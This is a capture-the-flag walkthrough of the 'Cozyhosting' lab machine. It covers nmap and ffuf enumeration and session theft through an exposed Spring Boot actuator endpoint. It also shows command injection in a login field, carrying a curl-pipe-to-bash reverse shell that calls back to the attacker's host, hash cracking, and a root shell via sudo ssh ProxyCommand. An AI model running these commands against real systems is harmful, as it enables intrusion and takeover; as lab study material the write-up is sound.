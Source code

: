 # Cozyhosting

## Enumeration

## Nmap:-

```bash
nmap -A -T4 -p- -o nmap.txt 10.129.119.165
```

```bash
Nmap scan report for 10.129.119.165 (10.129.119.165)
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to [http://cozyhosting.htb](http://cozyhosting.htb/)
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/3%OT=22%CT=1%CU=40146%PV=Y%DS=2%DC=T%G=Y%TM=64F44123
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=108%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)OPS(O1=M577ST11NW7%O2=M577ST11NW7%O3
OS:=M577NNT11NW7%O4=M577ST11NW7%O5=M577ST11NW7%O6=M577ST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M577NNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)
```

Upon visiting the website, it redirects to [http://cozyhosting.htb/](http://cozyhosting.htb/).

![Untitled](cozyhosting/Untitled.png)

## **Adding the Hostname:**

```bash
nano /etc/hosts
```

![Untitled](cozyhosting/Untitled%201.png)

## Website

![Untitled](cozyhosting/Untitled%202.png)

## Login Page:-

![Untitled](cozyhosting/Untitled%203.png)

### **Discovering Hidden Directories:**

```bash
ffuf -u http://cozyhosting.htb/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
```

![Untitled](cozyhosting/Untitled%204.png)

### **Accessing the /error Page:**

![Untitled](cozyhosting/Untitled%205.png)

Let's research this error on Google:

![Untitled](cozyhosting/Untitled%206.png)

We've discovered different endpoints of Spring Boot:

![Untitled](cozyhosting/Untitled%207.png)

There's an endpoint called "sessions" that provides the current user's sessions:

![Untitled](cozyhosting/Untitled%208.png)

When we make a CURL request to "sessions," we retrieve the sessions:

```bash
curl 'http://cozyhosting.htb/actuator/sessions' -i -X GET
```

![Untitled](cozyhosting/Untitled%209.png)

Let's access the login page with the session:

![Untitled](cozyhosting/Untitled%2010.png)

![Untitled](cozyhosting/Untitled%2011.png)

The username field is vulnerable to command injection, allowing us to execute commands by ending them with a semicolon:

![Untitled](cozyhosting/Untitled%2012.png)

However, it's forbidden to provide spaces:

![Untitled](cozyhosting/Untitled%2013.png)

![Untitled](cozyhosting/Untitled%2014.png)

We can bypass the space restriction by using `${IFS}`:

Let's create a reverse shell:

```bash
echo 'sh -i >& /dev/tcp/10.10.14.16/4444 0>&1' > rev.sh
```

I've hosted a server on port 8000:

```bash
sudo python3 -m http.server
```

![Untitled](cozyhosting/Untitled%2015.png)

Let's start a listener on port 4444:

```bash
sudo nc -lvnp 4444
```

![Untitled](cozyhosting/Untitled%2016.png)

To get a reverse shell, add the following command to the username field and send the request:

```bash
;curl${IFS}http://10.10.14.16:8000/rev.sh|bash;
```

![Untitled](cozyhosting/Untitled%2017.png)

Finally, we have obtained shell access.

![Untitled](cozyhosting/Untitled%2018.png)

Found cloudhosting-0.0.1.jar in current directory.Let’s get the file in our system to analysis it.

When I run the jar file, Its using postgresql.

![Untitled](cozyhosting/Untitled%2019.png)

We found "cloudhosting-0.0.1.jar" in the current directory. Let's retrieve the file for analysis.

Upon running the JAR file, it appears to be using PostgreSQL:

```bash
jar xf cloudhosting-0.0.1.jar
```

![Untitled](cozyhosting/Untitled%2020.png)

Let's find the PostgreSQL details and extract information from "cloudhosting-0.0.1.jar":

```bash
psql -h localhost -d cozyhosting -U postgres -W
```

![Untitled](cozyhosting/Untitled%2021.png)

To crack the password, we can use John the Ripper:

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![Untitled](cozyhosting/Untitled%2022.png)

There's a user called "josh." Let's log in using the same password:

Finally, we have gained user access as "josh."

![Untitled](cozyhosting/Untitled%2023.png)

**Privilege Escalation:**

To find out the sudo privilege details, run:

```bash
sudo -l
```

![Untitled](cozyhosting/Untitled%2024.png)

We can use Gftobins for sudo privilege escalation:

![Untitled](cozyhosting/Untitled%2025.png)

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Finally, we have achieved a root shell.

![Untitled](cozyhosting/Untitled%2026.png)